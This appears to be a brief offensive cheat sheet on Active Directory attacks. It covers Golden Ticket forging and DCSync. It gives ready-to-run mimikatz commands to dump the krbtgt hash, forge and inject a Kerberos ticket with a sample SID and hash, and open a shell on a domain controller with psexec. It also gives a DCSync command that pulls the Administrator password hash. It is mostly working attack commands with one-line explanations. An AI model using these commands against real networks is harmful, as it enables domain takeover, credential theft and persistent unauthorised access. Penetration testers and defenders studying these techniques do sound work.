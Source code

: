#### Golden Ticket - Pass the Ticket
-> It is a persistence and elevation of privilege technique where tickets are forged to take control of the Active Directory Key Distribution Service (KRBTGT) account and issue TGT's.

-> Get hash krbtgt
```
./mimikatz.exe "privilege::debug" "lsadump::lsa /patch"
```
-> Get SID
```
GetDomainsid (PowerView)
```
or  
```
whoami /user
```

-> Exploitation
```
mimikatz.exe "kerberos::purge" "kerberos::golden /user:fakeuser /domain:corp.com /sid:S-1-5-21-1602875587-2787523311-2599479668 /krbtgt:75b60230a2394a812000dbfad8415965 /ptt" "misc::cmd"

psexec.exe \\dc1 cmd.exe
```

#### DCSync Attack
-> The DCSync attack consists of requesting a replication update with a domain controller and obtaining the password hashes of each account in Active Directory without ever logging into the domain controller.
```
./mimikatz.exe "lsadump::dcsync /user:Administrator"
```
